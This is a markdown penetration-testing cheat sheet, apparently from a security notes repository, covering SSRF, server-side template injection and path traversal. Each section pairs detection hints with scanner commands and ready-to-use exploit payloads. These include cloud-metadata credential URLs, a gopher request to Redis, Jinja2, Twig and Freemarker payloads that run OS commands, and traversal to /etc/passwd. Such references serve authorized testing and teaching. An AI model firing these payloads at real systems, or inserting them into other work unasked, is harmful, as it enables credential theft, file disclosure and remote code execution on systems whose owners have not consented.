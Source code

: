 ## **SSRF**
*Present when: Application makes requests to user-controlled URLs*

**Manual:** Replace URLs with internal IPs, cloud metadata endpoints
**Automated:**
```bash
ssrfmap -r request.txt -p url -m readfiles
nuclei -u target.com -t ssrf/
```

**Exploit:**
```
http://169.254.169.254/latest/meta-data/iam/security-credentials/
http://127.0.0.1:8080/admin
file:///etc/passwd
gopher://127.0.0.1:6379/_SET test 1
```

## **SSTI**
*Present when: User input embedded in template engines without sandboxing*
Also see: [Server-Side Template Injection (SSTI)](../../Web%20Application/Injections/Server-Side%20Template%20Injection%20(SSTI).md)
**Manual:** Test with `{{7*7}}`, `${7*7}`, observe if calculation occurs
**Automated:**
```bash
tplmap -u "target.com/page?name=test"
nuclei -u target.com -t ssti/
```

**Exploit:**
```python
# Jinja2
{{config.__class__.__init__.__globals__['os'].popen('id').read()}}

# Twig
{{_self.env.registerUndefinedFilterCallback("exec")}}{{_self.env.getFilter("id")}}

# Freemarker
<#assign ex="freemarker.template.utility.Execute"?new()> ${ ex("id") }
```

## **PATH TRAVERSAL/LFI**
*Present when: File paths constructed from user input without validation*
Also see: [Local File Inclusion (LFI)](../../Web%20Application/File%20Inclusion/Local%20File%20Inclusion%20(LFI).md)
**Manual:** Replace filenames with `../../../etc/passwd`, observe responses
**Automated:**
```bash
dotdotpwn -m http -h target.com -x 8080 -f /etc/passwd
nuclei -u target.com -t lfi/
```
